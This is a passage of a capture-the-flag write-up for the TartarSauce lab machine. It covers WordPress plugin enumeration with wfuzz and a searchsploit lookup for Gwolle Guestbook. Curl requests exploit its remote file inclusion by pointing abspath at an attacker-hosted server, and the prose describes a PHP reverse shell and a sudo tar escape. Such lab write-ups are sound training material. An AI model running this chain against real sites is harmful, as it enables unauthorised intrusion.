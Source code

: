 ```bash
# http://tartarsouce.htb/webservices/wp/wp-content/plugins/

cat /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt | head -n 20
# wp-content/plugins/...

wfuzz -c --hc=404 -w /usr/share/SecLists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt http://tartarsouce.htb/webservices/wp/FUZZ
# akismet, gwolle-gb
```

<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_16.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_17.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_18.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_19.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br />
<img src="{{ site.img_path }}/tartarsauce_writeup/TartarSauce_20.png" width="100%" style="margin: 0 auto;display: block; max-width: 900px;">
<br /><br />

Now that I have a possible attack vector, I will resort again to **ExploitDB** via `searchsploit` and find an exploit for the **Gwolle Guestbook** plugin, which I will test even if I don't know which version is installed. If I analyze the script I find the path where the **[RFI](https://www.zaproxy.org/docs/alerts/7/){:target="_blank"}** exploit is performed (**very rare to find**) and if I start a local web server with `python` to perform with `curl` a request to it, I confirm that the **CMS** is vulnerable. The server requests a particular file (**wp-load.php**), so I create one with the same name but with a one-liner **.php** to get a **Reverse Shell**. I just have to open a port with `nc` to catch the incoming Reverse Shell and with `curl` I make the request again using the **GET** protocol and I get access to the machine. Before performing the basic enumeration commands, I perform a **console treatment**. I obtain system information (codename, system users, etc), I also discover that I have the privilege to execute the `tar` binary impersonating the user **onuma**, so I resort to **[GTFOBins](https://gtfobins.github.io/gtfobins/tar/#shell){:target="_blank"}** to look for the one-liner that allows me to pivot user and access the content of the first flag.

```bash
searchsploit Gwolle Guestbook
searchsploit -x php/webapps/38861.txt

python3 -m http.server 80

curl -s -X GET "http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6"
curl -s -X GET 'http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6'
curl -s -X GET http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6
curl http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6
# :(
curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.6/
# :)
#       --> "GET /wp-load.php HTTP/1.0" 404

nvim wp-load.php
cat !$
python3 -m http.server 80
```